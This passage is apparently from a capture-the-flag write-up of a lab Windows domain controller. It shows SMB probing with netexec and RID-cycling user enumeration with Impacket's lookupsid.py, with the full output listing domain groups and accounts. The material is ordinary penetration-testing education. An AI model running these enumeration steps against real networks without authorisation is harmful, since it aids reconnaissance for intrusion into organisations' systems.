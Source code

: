 `netexec` shows the same domain and hostname:

    
    
    oxdf@hacky$ netexec smb 10.10.11.236 
    SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
    

I can’t enumerate shares with no user, and a bad user does seen to get some
auth, but then can’t list shares either:

    
    
    oxdf@hacky$ netexec smb 10.10.11.236 --shares
    SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.236    445    DC01             [-] Error getting user: list index out of range
    SMB         10.10.11.236    445    DC01             [-] Error enumerating shares: STATUS_USER_SESSION_DELETED
    oxdf@hacky$ netexec smb 10.10.11.236 --shares -u 0xdf -p 0xdf
    SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.236    445    DC01             [+] manager.htb\0xdf:0xdf 
    SMB         10.10.11.236    445    DC01             [-] Error enumerating shares: STATUS_ACCESS_DENIED
    

Given that some kind of null auth is allowed here, I can try a RID cycling
attack, by bruteforcing Windows user security identifiers (SIDs) by
incrementing the relative identifier (RID) part. The
[Impacket](https://github.com/SecureAuthCorp/impacket) script `loopupside.py`
will do this nicely:

    
    
    oxdf@hacky$ lookupsid.py 0xdf@manager.htb -no-pass
    Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra
    
    [*] Brute forcing SIDs at manager.htb
    [*] StringBinding ncacn_np:manager.htb[\pipe\lsarpc]
    [*] Domain SID is: S-1-5-21-4078382237-1492182817-2568127209
    498: MANAGER\Enterprise Read-only Domain Controllers (SidTypeGroup)
    500: MANAGER\Administrator (SidTypeUser)
    501: MANAGER\Guest (SidTypeUser)
    502: MANAGER\krbtgt (SidTypeUser)
    512: MANAGER\Domain Admins (SidTypeGroup)
    513: MANAGER\Domain Users (SidTypeGroup)
    514: MANAGER\Domain Guests (SidTypeGroup)
    515: MANAGER\Domain Computers (SidTypeGroup)
    516: MANAGER\Domain Controllers (SidTypeGroup)
    517: MANAGER\Cert Publishers (SidTypeAlias)
    518: MANAGER\Schema Admins (SidTypeGroup)
    519: MANAGER\Enterprise Admins (SidTypeGroup)
    520: MANAGER\Group Policy Creator Owners (SidTypeGroup)
    521: MANAGER\Read-only Domain Controllers (SidTypeGroup)
    522: MANAGER\Cloneable Domain Controllers (SidTypeGroup)
    525: MANAGER\Protected Users (SidTypeGroup)
    526: MANAGER\Key Admins (SidTypeGroup)
    527: MANAGER\Enterprise Key Admins (SidTypeGroup)
    553: MANAGER\RAS and IAS Servers (SidTypeAlias)
    571: MANAGER\Allowed RODC Password Replication Group (SidTypeAlias)
    572: MANAGER\Denied RODC Password Replication Group (SidTypeAlias)
    1000: MANAGER\DC01$ (SidTypeUser)
    1101: MANAGER\DnsAdmins (SidTypeAlias)
    1102: MANAGER\DnsUpdateProxy (SidTypeGroup)
    1103: MANAGER\SQLServer2005SQLBrowserUser$DC01 (SidTypeAlias)
    1113: MANAGER\Zhong (SidTypeUser)
    1114: MANAGER\Cheng (SidTypeUser)
    1115: MANAGER\Ryan (SidTypeUser)